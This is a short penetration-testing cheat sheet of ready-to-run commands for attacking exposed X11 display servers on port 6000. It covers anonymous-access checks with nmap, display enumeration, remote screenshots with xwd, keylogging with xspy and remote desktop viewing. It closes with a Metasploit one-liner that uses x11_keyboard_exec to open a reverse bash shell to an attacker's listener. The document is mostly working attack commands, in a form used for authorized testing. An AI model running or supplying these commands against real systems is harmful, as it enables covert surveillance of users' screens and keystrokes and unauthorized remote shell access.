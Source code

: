 # X11

% x11, 6000

## x11 - check anonymous connection
```
nmap -sV --script x11-access -p <port> <ip>
```

## x11 - verify connection
```
xdpyinfo -display <ip>:<display>
```

## x11 - verify connection (2)
```
xwininfo -root -tree -display <ip>:<display>
```

## X11 - screenshot
```
xwd –root –screen –silent –display <ip>:<display> > screenshot.xwd; convert screenshot.xwd screenshot.png
```

## X11 - keylogging
```
xspy <ip>
```

## X11 - remote desktop view
```
xrdp <ip>:<display>
```

## X11 - msf reverse shell
```
msfconsole -x "use exploit/unix/x11/x11_keyboard_exec; set RHOSTS <rhost>; set payload cmd/unix/reverse_bash; set lhost <lhost>; set lport <lport>; exploit"
```

= display: 0
